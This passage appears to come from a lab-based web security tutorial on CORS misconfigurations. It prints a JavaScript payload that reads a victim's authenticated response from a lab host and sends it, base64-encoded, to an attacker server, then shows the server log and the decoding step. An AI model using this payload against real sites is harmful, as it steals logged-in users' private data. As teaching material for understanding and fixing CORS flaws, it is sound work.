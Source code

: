 To exploit this, an attacker can host a payload similar to the following on their web server with an arbitrary origin, for instance, at `https://exploitserver.htb/exploit`:

```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://cors-misconfigs.htb/data.php', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      location = 'https://10.10.14.144:4443/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>
```
Suppose a victim navigates to the payload at `https://exploitserver.htb/exploit` while the browser stores valid credentials to the misconfigured web application at `https://cors-misconfigs.htb`. In that case, the data is accessed from the victim's valid session and exfiltrated to the attacker because of the insecure CORS configuration.

After accessing the site hosting the payload, the victim's browser sends the cross-origin request to `https://cors-misconfigs.htb/data.php` with credentials, i.e., session cookies:

`GET request to /data.php on cors-misconfigs.htb with PHPSESSID cookie. Origin and referer: https://exploitserver.htb. Response: HTTP 200 OK, allowing origin https://exploitserver.htb and credentials. HTML content includes a secret message.`

Since the response reflects the origin in the CORS header and allows credentials, the attacker's origin `https://exploitserver.htb` is granted an exception of the Same-Origin policy. Therefore, the payload code is allowed to access the response and exfiltrates it by sending it to the attacker HTTPS exfiltration server:

```bash
kabaneridev@htb[/htb]$ python3 server.py 

10.10.14.144 - - [31/Dec/2024 18:35:43] code 404, message File not found
10.10.14.144 - - [31/Dec/2024 18:35:43] "GET /log?data=CjxodG1sPgo8aGVhZD5IZWxsbyBXb3JsZCE8L2hlYWQ+Cjxib2R5PjxkaXYgaWQ9InNlY3JldCI+VGhpcyBpcyBhIHNlY3JldCBtZXNzYWdlLjwvZGl2PjwvYm9keT4KPC9odG1sPgo= HTTP/1.1" 404 -
```
After base64-decoding the exfiltrated data, we obtain the HTML page:

```bash
kabaneridev@htb[/htb]$ echo -n CjxodG1sPgo8aGVhZD5IZWxsbyBXb3JsZCE8L2hlYWQ+Cjxib2R5PjxkaXYgaWQ9InNlY3JldCI+VGhpcyBpcyBhIHNlY3JldCBtZXNzYWdlLjwvZGl2PjwvYm9keT4KPC9odG1sPgo= | base64 -d

<html>
<head>Hello World!</head>
<body><div id="secret">This is a secret message.</div></body>
</html>
```
Thus, this CORS misconfiguration allows an attacker that does not have valid credentials to read data from the API, even though it is protected by authentication.

## Improper Origin Whitelist
